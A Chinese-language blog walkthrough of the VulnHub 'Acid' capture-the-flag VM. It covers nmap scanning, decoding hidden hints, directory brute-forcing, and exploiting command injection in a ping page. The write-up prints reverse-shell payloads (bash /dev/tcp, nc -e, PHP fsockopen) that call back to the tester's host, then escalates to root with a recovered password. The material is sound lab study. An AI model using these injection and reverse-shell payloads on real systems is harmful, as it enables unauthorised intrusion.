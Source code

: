 ```yaml
---
title: 渗透测试-vulnhub-acid
tags: 渗透测试
password: shentou
abbrlink: 26893
date: 2018-09-18 08:44:02
---
```


**备忘录,仅用来记录一些操作，具体环境可以参考红日安全**

<!-- more -->

# 信息搜集

## 确定ip地址

由于采用NAT模式，靶机ip地址一定在Vmware的NAT网段下。

> nmap -sP 192.168.31.0/24 [-oN filename]
>
> or:
>
> netdiscover

从而确定IP地址: `192.168.31.144`

## 端口扫描

> nmap -p1-65535 -sV [-oN filename] 192.168.31.144
>
> nmap -Pn -sV -p- 192.168.31.144

扫描结果如下:

```
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:8B:C2:9F (VMware)
```

33447端口存在Web服务。

## 服务识别

仅仅发现Web服务，所以只能从Web服务入手。

端口： TCP  33447

Web服务器: Apache 2.4.10

操作系统: Ubuntu

# 漏洞挖掘

## 查看源码

发现首页最后一行存在注释 `0x643239334c6d70775a773d3d`，转化成字符串如下:

```
>>> libnum.n2s(0x643239334c6d70775a773d3d)
'd293LmpwZw=='
```

一看就知道是Base64。

```
ht@DESKTOP-GUA7PSI:/mnt/d$ echo d293LmpwZw== | base64 -d
wow.jpg
```

直接访问`http://192.168.31.144:33447/wow.jpg`，返回404。

凭经验尝试了一下`http://192.168.31.144:33447/images/wow.jpg`，返回一张图片。

![](/assets/shentou/wow.jpg)

通过`strings`命令查看图片,发现新的提示：

```
ht@DESKTOP-GUA7PSI:/mnt/c/Users/ht/Desktop$ strings wow.jpg | tail -n 4
/Pp$t
( ++|]
H{      l
;37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34
```

将最后一行数字转为字符串:

```
>>> ''.join([chr(int('0x'+i, 16)) for i in "37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34".split(":")])
'7aee0f6d588ed9905ee37f16a7c610d4'
```

通过猜测，`7aee0f6d588ed9905ee37f16a7c610d4`应该是一串md5值。通过**cmd5.com**查询，得到值`63425`。暂时不知道是什么东西。

## 使用Dirbuster爆破目录

![](/assets/shentou/TIM截图20180925144512.png)

依次尝试`/Challenge/cake.php`， `/Challenge/include.php`, `/Challenge/index.php`。

其中`cake.php`需要登录。查看源码`title`标签，可以发现新的目录`Magic_box`。

`include.php`则存在文件包含漏洞,可以通过输入`/etc/passwd`来测试。

继续爆破"/Challenge/Magic_box“目录，发现新的页面`command.php`, `low.php`。

## 命令执行

`/Challenge/Magic_box`很明显存在命令执行漏洞，通过尝试输入`127.0.0.1;ls`， 可以发现当前目录下所有文件.

```
command.php
command.php.save
command2.php.save
command2.php.save.1
low.php
proc
tails.php
```

查看`command.php`源码。

```
<?php
include_once '../includes/db_connect.php';
include_once '../includes/functions.php';
?>
<?php
if( isset( $_POST[ 'submit' ] ) ) {
        $target = $_REQUEST[ 'IP' ];
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) { 
                $cmd = shell_exec( 'ping  ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
        } else { 
                $cmd = shell_exec( 'ping  -c 3 ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
                echo $cmd;
        }
}
```

## 反弹shell+提权

payload1: `127.0.0.1;/bin/bash -i >& /dev/tcp/192.168.31.130/1234 0>&1` 失败。

payload2: `127.0.0.1;nc -e /bin/bash -d 192.168.31130 1234` 失败。

payload3: `127.0.0.1;php -r '$sock=fsockopen("192.168.31.130",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 成功。

```
root@kali:~# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.31.130] from (UNKNOWN) [192.168.31.144] 55051
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

提权，执行`su`命令，发现无法执行，需要从一个终端，才能执行`su`命令:

```
$ su
su: must be run from a terminal
```

解决方法，使用python调用本地`shell`。

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

python /tmp/asdf.py
```

结果如下：

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

$ python /tmp/asdf.py
www-data@acid:/var/www/html/Challenge/Magic_Box$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查看`/etc/passwd`，发现需要关注的用户有如下几个：`root`, `saman`, `acid`。

分别查看每个用户的文件:

> find / -user acid 2 >/dev/null

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ find / -user acid 2>/dev/null
</Challenge/Magic_Box$ find / -user acid 2>/dev/null                         
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
/bin/pwn_me/chkrootkit
/bin/pwn_me/README.chkwtmp
```

将`hint.pcapng`拷贝到自己电脑上。

```
scp /sbin/raw_vs_isi/hint.pcapng root@192.168.31.130:/root/Desktop/
```

找到 `saman`的密码`1337hax0r`。

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
su saman
Password: 1337hax0r

saman@acid:/var/www/html/Challenge/Magic_Box$ sudo -i
sudo -i
[sudo] password for saman: 1337hax0r

  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:~#
```










